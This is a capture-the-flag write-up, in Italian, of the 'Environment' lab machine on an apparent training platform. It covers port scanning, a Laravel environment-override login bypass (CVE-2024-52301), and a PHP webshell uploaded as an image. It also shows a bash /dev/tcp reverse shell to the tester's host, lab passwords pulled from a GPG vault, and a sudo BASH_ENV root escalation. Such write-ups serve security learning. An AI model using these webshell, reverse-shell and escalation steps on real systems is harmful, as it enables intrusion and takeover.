


# Environment

ip: 10.10.11.67

# NMAP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-23 11:35 CEST
Stats: 0:00:42 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Parallel DNS resolution of 2 hosts. Timing: About 50.00% done; ETC: 11:36 (0:00:02 remaining)
Nmap scan report for 10.10.11.67
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://environment.htb
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/23%OT=22%CT=1%CU=41471%PV=Y%DS=2%DC=T%G=Y%TM=6830
OS:419D%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%TS=C)OPS(O1=M542ST11NW7%O2=M542ST11NW
OS:7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=M542ST11NW7%O6=M542ST11)WIN(W1=FE88%
OS:W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M542N
OS:NSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   256.96 ms 10.10.16.1
2   112.18 ms 10.10.11.67

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.73 seconds


# ENUMERATION

> ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -H "Host: FUZZ.environment.htb" -u http://10.10.11.67

non produce risultati

> dirsearch -u environment.htb

```
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/carromano/My_ETH_Tool_list/HTB/Machines/medium/environment/reports/_environment.htb/_25-05-23_12-06-11.txt

Target: http://environment.htb/

[12:06:11] Starting: 
[12:06:17] 403 -  555B  - /%2e%2e;/test
[12:06:32] 403 -  555B  - /admin/.config
[12:06:43] 403 -  555B  - /admrev/.ftppass
[12:06:43] 403 -  555B  - /admpar/.ftppass
[12:06:49] 403 -  555B  - /bitrix/.settings
[12:06:49] 403 -  555B  - /bitrix/.settings.php.bak
[12:06:49] 403 -  555B  - /bitrix/.settings.bak
[12:06:50] 301 -  169B  - /build  ->  http://environment.htb/build/
[12:06:50] 403 -  555B  - /build/
[12:07:05] 403 -  555B  - /ext/.deps
[12:07:05] 200 -    0B  - /favicon.ico
[12:07:12] 200 -    2KB - /index.php/login/
[12:07:16] 403 -  555B  - /lib/flex/uploader/.actionScriptProperties
[12:07:16] 403 -  555B  - /lib/flex/uploader/.flexProperties
[12:07:16] 403 -  555B  - /lib/flex/uploader/.project
[12:07:16] 403 -  555B  - /lib/flex/uploader/.settings
[12:07:16] 403 -  555B  - /lib/flex/varien/.actionScriptProperties
[12:07:16] 403 -  555B  - /lib/flex/varien/.flexLibProperties
[12:07:16] 403 -  555B  - /lib/flex/varien/.project
[12:07:16] 403 -  555B  - /lib/flex/varien/.settings
[12:07:18] 200 -    2KB - /login
[12:07:18] 200 -    2KB - /login/
[12:07:19] 302 -  358B  - /logout  ->  http://environment.htb/login
[12:07:19] 302 -  358B  - /logout/  ->  http://environment.htb/login
[12:07:19] 403 -  555B  - /mailer/.env
[12:07:37] 403 -  555B  - /resources/.arch-internal-preview.css
[12:07:37] 403 -  555B  - /resources/sass/.sass-cache/
[12:07:38] 200 -   24B  - /robots.txt
[12:07:46] 301 -  169B  - /storage  ->  http://environment.htb/storage/
[12:07:46] 403 -  555B  - /storage/
[12:07:52] 403 -  555B  - /twitter/.env
[12:07:53] 405 -  245KB - /upload
[12:07:53] 405 -  245KB - /upload/
[12:07:55] 403 -  555B  - /vendor/

Task Completed

```


## Robots.txt esposto
> http://environment.htb/robots.txt

Ma non da informazioni:
```
User-agent: *
Disallow:
```

## Login FOrm


Non sembra injectabile

## UPLOAD
Molte delle route sono forbidden.

Upload NO! -> però se accedo in get manda un errore che espone dei dati importanti



LARAVEL versione 11.30.0 -> Trovo una CVE: `CVE-2024-52301`

un possibile exploit è a quest [link](https://github.com/Nyamort/CVE-2024-52301), altre info sono [qui](https://www.cybersecurity-help.cz/vdb/laravel/laravel_framework/11.30.0/)


## LOGIN

provo a fare il login analizzando i campi su burp. Noto che modificando un campo i maniera errata ottengo l'errore di Laravel.

Noto che c'è un check non sicuro sul campo $remember$

```php
    if($remember == 'False') {

        $keep_loggedin = False;

    } elseif ($remember == 'True') {

        $keep_loggedin = True;

    }
```

provo a mettere un valore casuale:

```php
    if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs

        $request->session()->regenerate();

        $request->session()->put('user_id', 1);

        return redirect('/management/dashboard');

    }
```

Se riesco ad entrare nell'environment "preprod" ottengo automaticamente l'user_id=1 -> era tra gli exploit notati prima [qui](https://www.cybersecurity-help.cz/vdb/SB20241112127):

basta inserire `?--env=preprod` come parametro get alla post.

Faccio una richiesta di login conle credenziali casuali ma con il parametro get -> ACCEDO ALLA DASHBOARD

Username: Hish
email: hish@environment.htb

posso scegliere una nuova immagine e uploadarla: webshell?

provo a caricare il file shell.sh chiamandolo shell.png

Mi da errore
> Unexpected MimeType: text/x-shellscript

Non è la strada: Devo usare PHP

Carico un file php contenente:

```php
GIF89a
<?php eval($_GET["cmd"]);?>
```

e aggiungo un punto alla fine del nome del file quando eseguo la risposta: shell.php.
modifico inoltre il Content-type a image/jpg


e la risposta:
```json
{
    "url":"http:\/\/environment.htb\/storage\/files\/shell.php",
    "uploaded":"http:\/\/environment.htb\/storage\/files\/shell.php"
}
```

accedo a `http://environment.htb/storage/files/shell.php?cmd=phpinfo();` per vedere se funziona (SPOILER: si)

Faccio lo stesso procedimento con:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.25/1234 0>&1'");?>
```
 
nel file e lo eseguo accedendo all'url, dopo aver aperto nc in ascolto sulla mia macchina -> **shell ottenuta**

# USER FLAG
c05297dc2a67632cbb6437efb7c47652

# PRIVESC
entro nella cartella backup e noto una chiava .gpg

seguo delle istruzioni trovate online per crackare la cosa:

```markdown
# 1. Copy the key directory of the hish user
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. Set permissions
chmod -R 700 /tmp/mygnupg

# 3. Confirm whether the private key exists
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. Decrypt keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```

stampando message.txt:

> PAYPAL.COM -> Ihaves0meMon$yhere123
> ENVIRONMENT.HTB -> marineSPm@ster!!
> FACEBOOK.COM -> summerSunnyB3ACH!!

Usando la password di environment.htb entro in SSH.

lancio `sudo -l`:

```
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

**env_keep+="ENV BASH_ENV"** posso mantenere i permessi di ambiente:

## EXPLOIT

echo 'bash -p' > esp.sh  
chmod +x esp.sh
sudo BASH_ENV=./esp.sh /usr/bin/systeminfo


